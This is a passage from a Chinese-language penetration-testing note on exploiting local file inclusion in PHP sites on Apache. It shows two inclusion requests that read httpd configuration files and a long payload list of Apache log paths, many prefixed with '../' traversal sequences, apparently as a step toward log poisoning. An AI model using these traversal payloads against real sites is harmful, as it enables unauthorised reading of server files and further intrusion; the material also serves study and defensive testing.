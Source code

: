 通过读取httpd的配置文件httpd.conf找日志文件所在目录

httpd.conf一般会存在Apache的安装目录下

在Redhat系列，默认安装可能在`/etc/httpd/conf/httpd.conf`

而自定义安装的可能在`/usr/local/apache/conf/httpd.conf`

如果猜不到httpd目录和日志目录，可以构造一些异常也许能暴露web目录所在位置

**phpinfo获取Apache日志**：Apac2handler中的server root就是Apache的安装路径，这和路径下的log目录就有其日志。

**配置文件中获取Apache日志路径**

```
index.php?page=/etc/init.d/httpd
index.php?page=/etc/httpd/conf/httpd.conf
```

常见的日志文件可能存在的地方：

```css
/var/log/httpd/access_log
/var/log/httpd/error_log
/etc/httpd/logs/acces_log
/etc/httpd/logs/acces.log
/etc/httpd/logs/error_log
/etc/httpd/logs/error.log
/var/www/logs/access_log
/var/www/logs/access.log
/var/www/logs/error_log
/var/www/logs/error.log
/usr/local/apache/logs/access_log
/usr/local/apache/logs/access.log
/usr/local/apache/logs/error_log
/usr/local/apache/logs/error.log
/var/log/apache/access_log
/var/log/apache/access.log
/var/log/apache/error_log
/var/log/apache/error.log
/var/log/access_log/var/log/access.log
/var/log/error_log/var/log/error.log
../apache/logs/error.log
../apache/logs/access.log
../../apache/logs/access.log
../../apache/logs/error.log
../../../apache/logs/access.log
../../../apache/logs/error.log
../../../../../../../../../../var/log/httpd/access_log
../../../../../../../../../../var/log/httpd/error_log
../../../../../../../../../../etc/httpd//logs/access_log
../../../../../../../../../../etc/httpd//logs/access.log
../../../../../../../../../../etc/httpd//logs/error_log
../../../../../../../../../../etc/httpd//logs/error.log
../../../../../../../../../../var/www/logs/access_log
../../../../../../../../../../var/www/logs/access.log
../../../../../../../../../../var/www/logs/error_log
../../../../../../../../../../var/www/logs/error.log
../../../../../../../../../../usr/local/apache/logs/access_log
../../../../../../../../../../usr/local/apache/logs/access.log
../../../../../../../../../../usr/local/apache/logs/error_log
../../../../../../../../../../usr/local/apache/logs/error.log
../../../../../../../../../../var/log/apache/access_log
../../../../../../../../../../var/log/apache/access.log
../../../../../../../../../../var/log/apache/error_log
../../../../../../../../../../var/log/apache/error.log
../../../../../../../../../../var/log/access_log
../../../../../../../../../../var/log/error_log
```